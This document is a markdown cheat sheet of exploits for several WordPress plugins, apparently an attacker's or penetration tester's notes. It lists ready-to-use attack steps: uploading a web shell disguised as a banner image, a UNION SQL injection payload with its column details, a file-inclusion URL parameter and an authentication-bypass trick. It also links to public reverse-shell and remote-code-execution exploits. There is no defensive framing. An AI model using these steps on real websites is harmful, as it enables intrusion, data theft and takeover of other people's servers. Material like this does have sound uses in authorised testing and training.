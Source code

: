 # wordpress plugin exploits

## adRotate 5.8.6.2

```bash
# can upload shell as zip as image banner
# banner images are auto extracted to /banner folder
# use plugin settings to find where the /banner folder is
# mostly /var/www/html/wordpress/wp-content/banners
wp-content/banners/web.php
```

## simply-poll-master 1.4.1 | 1.5 |

* https://www.exploit-db.com/exploits/40971

```bash
# POST http://example.com/wp-admin/admin-ajax.php
# --data="action=spAjaxResults&pollid=1 UNION SELECT 1,2,3,4,5,6,7 --"
# pollid is injectable 
# UNION query : 7 columns; 6th in injectable
```

## simple-file-list 4.2.2 | RCE

* direct reverse shell | https://www.exploit-db.com/exploits/48979
* arbitary file upload | https://www.exploit-db.com/exploits/48449

## site-import 1.0.1 | LFI + RFI

* https://www.exploit-db.com/exploits/39558

```bash
/wp-content/plugins/site-import/admin/page.php?url=
```

## wp-support-plus-responsive-ticket-system 7.1.3

* https://www.exploit-db.com/exploits/41006

```bash
# make exploit.html > update action to domain > run it > submit form
# refresh website > we are logged in
```

## social warfare < 3.5.3

* https://github.com/hash3liZer/CVE-2019-9978 (save payload in .txt and host it locally)
* https://www.exploit-db.com/exploits/46794
* https://github.com/shad0w008/social-warfare-RCE